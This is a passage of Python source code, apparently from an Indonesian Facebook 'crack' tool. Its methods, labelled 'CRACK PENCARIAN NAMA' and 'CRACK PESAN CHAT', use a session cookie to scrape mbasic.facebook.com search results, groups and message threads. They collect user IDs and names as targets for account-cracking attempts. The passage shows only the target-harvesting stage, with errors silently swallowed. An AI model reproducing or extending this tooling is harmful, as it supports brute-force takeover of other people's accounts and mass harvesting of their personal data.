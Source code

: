 				tambah(f"{self.url}/groups/"+re.search("id=(\\d*)",data_).group(1))
		except:
			pass
	
	# CRACK PENCARIAN NAMA
	def nama(self, data_, jum):
		try:
			true = False
			respon = requests.get(data_, cookies=self.kueh).text
			otw = re.findall('picture" \/>\<\/a\>\<\/td\>\<td\ class\=\"(.*?)\"\>\<a\ href\=\"\/(.*?)"\>\<div\ class\=\"..\"\>\<div\ class\=\"..\"\>(.*?)<\/div>',respon)
			for i in otw:
				if "profile.php?" in i[1]:
					self.id.append(re.findall("id=(.*?)&amp;refid",i[1])[0]+"<=>"+i[2])
				else:
					self.id.append(re.findall("(.*?)\?refid=",i[1])[0]+"<=>"+i[2])
				print(f"\r{U}{til}{O} Mengumpulkan Id {M}> {U}[{H}{len(self.id)}{U}] ",end="")
				if len(self.id)==jum:
					true=True
					break
			if true==False:
				if "Lihat Hasil Selanjutnya" in respon:
					self.nama(parser(respon,"html.parser").find("a",string="Lihat Hasil Selanjutnya").get("href"),jum)
		except:
			pass
			
	# CRACK PESAN CHAT
	def pesan(self, data_):
		try:
			bs = parser(requests.get(data_, cookies=self.kueh).text, 'html.parser')
			print(f"\r{U}{til}{O} Mengumpulkan Id {M}> {U}[{H}{len(self.id)}{U}] ",end="")
			for i in bs.find_all('a', href=True):
				if '/messages/read' in i.get('href'):
					f = bs4.re.findall('cid\\.c\\.(.*?)%3A(.*?)&', i.get('href'))
					try:
						for ip in list(f.pop()):
							if self.kueh.get(' c_user') in ip:
								continue
							else:
								if 'pengguna facebook' in i.text.lower():
									continue
								self.id.append(ip+"<=>"+i.text)
					except Exception as e:
						continue
				if 'Lihat Pesan Sebelumnya' in i.text:
					self.pesan('https://mbasic.facebook.com/' + i.get('href'))
		except:
			pass
			